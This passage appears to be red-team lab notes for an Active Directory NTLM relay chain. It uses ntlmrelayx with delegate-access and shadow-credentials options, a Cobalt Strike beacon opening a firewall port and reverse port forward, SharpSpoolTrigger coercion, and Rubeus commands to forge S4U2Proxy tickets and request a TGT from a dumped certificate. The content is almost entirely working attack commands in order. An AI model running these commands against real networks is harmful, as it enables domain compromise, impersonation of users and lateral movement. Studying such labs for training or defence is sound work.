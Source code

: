     attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --delegate-access -smb2support --http-port 8888

Punch a hole in the firewall and set the reverse port forward.

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> powershell New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888
    beacon> rportfwd 8888 localhost 8888

Use SharpSystemTriggers to trigger the authentication. The WebDAV URL needs to point to the reverse port forward:

    beacon> execute-assembly SharpSpoolTrigger.exe wkstn-1 wkstn-2@8888/pwned

Once the traffic hits ntlmrelayx, it will relay to the domain controller. A new machine account PVWUMPYT$ is created with password 4!t1}}I_CGJ}0OJ, which now has delegation rights to WKSTN-1$. To complete the attack chain, calculate the AES256 hash from the password:

    PS: Rubeus.exe hash /domain:dev.cyberbotic.io /user:PVWUMPYT$ /password:'4!t1}}I_CGJ}0OJ'

Then perform the S4U2Proxy to request service tickets of your choosing:

    beacon> execute-assembly Rubeus.exe s4u /user:PVWUMPYT$ /impersonateuser:nlamb /msdsspn:cifs/wkstn-1.dev.cyberbotic.io /aes256:46B9... /nowrap

Remove the fake computer account when done.

The shadow credentials option will automatically dump a certificate file for you.

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --shadow-credentials -smb2support --http-port 8888

It can be converted to ccache format to use with Impacket, or base64 encoded to use with Rubeus.

    attacker@ubuntu ~> cat ROsU1G59.pfx | base64 -w 0

Since this is a certificate, we use it to request a TGT first which can then be used for S4U2Self:

    beacon> execute-assembly Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIII3Q... /password:wBaP... /nowrap

Delete the keys after the attack.


